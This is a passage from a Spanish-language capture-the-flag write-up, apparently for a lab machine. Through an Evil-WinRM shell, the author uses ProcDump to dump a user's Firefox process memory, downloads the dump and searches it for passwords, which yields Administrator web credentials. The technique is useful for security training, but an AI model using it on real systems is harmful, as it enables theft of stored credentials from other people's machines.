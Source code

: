 ```bash
   -i      Install ProcDump as the AeDebug postmortem debugger.
           Only -mm, -ma, -mt, -mp, -mc, -md and -r are supported as additional options.
           Uninstall (-u only) restores the previous configuration.
   -u      As the only option, Uninstalls ProcDump as the AeDebug postmortem debugger.

License Agreement:
   Use the -accepteula command line option to automatically accept the
   Sysinternals license agreement.

Automated Termination:
   -cancel <Target Process PID>
           Using this option or setting an event with the name "ProcDump-<PID>"
           is the same as typing Ctrl+C to gracefully terminate ProcDump.
           Graceful termination ensures the process is resumed if a capture is active.
           The cancellation applies to ALL ProcDump instances monitoring the process.

Filename:
   Default dump filename: PROCESSNAME_YYMMDD_HHMMSS.dmp
   The following substitutions are supported:
           PROCESSNAME   Process Name
           PID           Process ID
           EXCEPTIONCODE Exception Code
           YYMMDD        Year/Month/Day
           HHMMSS        Hour/Minute/Second

Examples:
   Use -? -e to see example command lines.
```

- Ahora le pasamos los parámetros y el PID.

```bash
*Evil-WinRM* PS C:\Users\Chase\Desktop> .\procdump64.exe -accepteula -ma 6240

ProcDump v11.0 - Sysinternals process dump utility
Copyright (C) 2009-2022 Mark Russinovich and Andrew Richards
Sysinternals - www.sysinternals.com

[03:54:16] Dump 1 initiated: C:\Users\Chase\Desktop\firefox.exe_240414_035416.dmp
[03:54:16] Dump 1 writing: Estimated dump file size is 493 MB.
[03:54:18] Dump 1 complete: 493 MB written in 2.5 seconds
[03:54:19] Dump count reached.
```

- Como el archivo pesa mucho lo que podemos hacer es que mientras se descarga podemos aplicar los `strings` y filtrar por `password` para ver si encontramos algo.

```bash
*Evil-WinRM* PS C:\Users\Chase\Desktop> download C:\Users\Chase\Desktop\
Info: Downloading C:\Users\Chase\Desktop\firefox.exe_240414_035416.dmp to firefox.exe_240414_035416.dmp
```

- Y vemos esto esas credenciales funcionan para logearnos en la pagina web como el Administrator.
